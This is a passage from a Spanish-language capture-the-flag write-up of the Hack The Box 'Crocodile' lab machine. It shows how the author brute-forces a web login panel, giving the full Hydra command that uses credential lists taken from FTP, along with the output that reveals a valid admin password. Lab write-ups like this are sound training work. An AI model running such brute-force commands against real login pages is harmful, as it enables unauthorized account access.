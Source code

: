 De los resultados obtenidos, el que más me llama la atención es "/dashboard", por lo que accedo a esta ruta y veo el siguiente panel de login:

![Panel login en la página "/dashboard" del servidor web](/assets/img/HTB/Crocodile/dashboardpage.png)

Al ver el panel, se me ocurre probar los usuarios y contraseñas de los listados que obtuve previamente a través del servicio FTP. Pero, para automatizar un ataque de fuerza bruta al panel, necesito ver que mensaje de error me muestra al introducir credenciales inválidas, por lo que pruebo a introducir unas credenciales aleatorias y obtengo el siguiente mensaje de error:

![Mensaje de error al introducir credenciales inválidas](/assets/img/HTB/Crocodile/incorrectcredentials.png)

Con esto, ya puedo automatizar un ataque de fuerza bruta utilizando, por ejemplo, la herramienta `Hydra`.

```
# hydra -L allowed.userlist -P allowed.userlist.passwd 10.129.111.234 http-post-form "/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information."
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-16 19:15:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking http-post-form://10.129.111.234:80/login.php:Username=^USER^&Password=^PASS^&Submit=Login:Incorrect information.
[80][http-post-form] host: 10.129.111.234   login: admin   password: rKXM59ESxesUFHAd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-16 19:15:55
```
